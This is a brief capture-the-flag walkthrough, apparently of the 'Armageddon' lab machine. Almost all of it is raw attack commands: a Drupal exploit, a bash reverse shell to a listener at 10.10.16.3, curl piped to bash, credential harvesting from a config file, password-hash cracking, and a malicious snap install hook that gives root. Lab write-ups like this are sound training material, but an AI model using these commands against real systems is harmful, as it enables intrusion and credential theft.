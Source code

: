 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Armageddon
# 26/3/2023
10.10.10.233

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

----------------------------------------------------
# exploitation
----------------------------------------------------
└─$ searchsploit drupal 7
└─$ searchsploit -m php/webapps/44449.rb
└─$ sudo gem install highline           
└─$ ruby 44449.rb            
└─$ ruby 44449.rb http://10.10.10.233/
we got shell

└─$ nano index.html
bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'
└─$ nc -lvnp 443 
└─$ python3 -m http.server 80 
armageddon.htb>> curl http://10.10.16.3:80/index.html | bash

now we have stable shell

----------------------------------------------------
# priv esc
----------------------------------------------------
cd /var/www/html/sites/default

grep -iRn 'password' web.config

      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',

mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users;'
echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
booboo           (?)     
└─$ ssh brucetherealadmin@10.10.10.233
booboo
[brucetherealadmin@armageddon ~]$ sudo -l
    (root) NOPASSWD: /usr/bin/snap install *
└─$ sudo apt install snap    
└─$ sudo apt install snapd
└─$ sudo gem install fpm
[brucetherealadmin@armageddon ~]$ cp /usr/bin/bash .
└─$ COMMAND="chown root:root /home/brucetherealadmin/bash;chmod 4755 /home/brucetherealadmin/bash"                       
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
└─$ python3 -m http.server 80 
[brucetherealadmin@armageddon tmp]$ curl http://10.10.16.3:80/xxxx_1.0_all.snap -o bashh.snap
sudo snap install bashh.snap --dangerous --devmode
[brucetherealadmin@armageddon ~]$ ./bash -p
we are root
GG